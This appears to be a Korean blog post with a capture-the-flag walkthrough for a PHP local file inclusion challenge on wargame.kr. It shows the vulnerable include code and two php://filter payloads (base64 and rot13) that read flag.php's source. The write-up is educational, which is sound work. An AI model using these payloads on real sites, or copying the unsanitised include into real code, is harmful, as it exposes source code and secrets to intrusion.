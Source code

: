 ```yaml
---
title: "[wargame.kr] PHP LFI 문제"
excerpt: "PHP LFI 문제 풀이"
categories:
    - dreamhack
tags:
    - wargame
    - php
    - include
    - wrapper
last_modified_at: 2023-08-29T09:13:00-05:00
---
```

## LFI + PHP Wrapper
- include 취약점과 wrapper 취약점을 이용하여 문제를 해결해 주어야 한다.


### 코드 분석
- include 부분에 취약점이 존재한다.
- 요청 파라미터로 아무것도 받지 못하면 디펄트로 설정된 main.php 파일을 include 한다.
- get 요청 파라미터로 확장자를 뺀 이름을 넣어주면 `include 파일이름.php` 가 include 되는 것을 확인할 수 있다.

```php
<?php
  include $_GET['page']?$_GET['page'].'.php':'main.php';
?>
```

### php 프로토콜의 filter 기능을 이용한 공격 Payload
- filter 기능을 이용하면 파일 내용을 먼저 필터링 처리한 다음 php 파일로서 실행이 된다.

- 방법 1.  `convert.base64-encode` 이용하기
- 이렇게 하면 flag.php 파일 내용이 먼저 base64 로 인코딩을 한 다음 php 파일로서 실행이 된다.

```
/?page=php://filter/read=convert.base64-encode/resource=/var/www/uploads/flag
```

- 방법 2. `string.rot13` 
- 이렇게 하면 flag.php 파일 내용이 먼저 rot13 로 인코딩을 한 다음 php 파일로서 실행이 된다.

```
/?page=php://filter/read=string.rot13/resource=/var/www/uploads/flag
```

- 인코딩된 데이터를 사용자는 받을 수 있기 때문에 파일 내용을 확인하기 위해서는 디코딩 작업을 해주면 된다.


## 참고 사이트
- [php 프로토콜](https://www.php.net/manual/en/wrappers.php)
- [php 에서 지원하는 필터](https://www.php.net/manual/en/filters.php)
- [rot13 디코더](https://rot13.com/)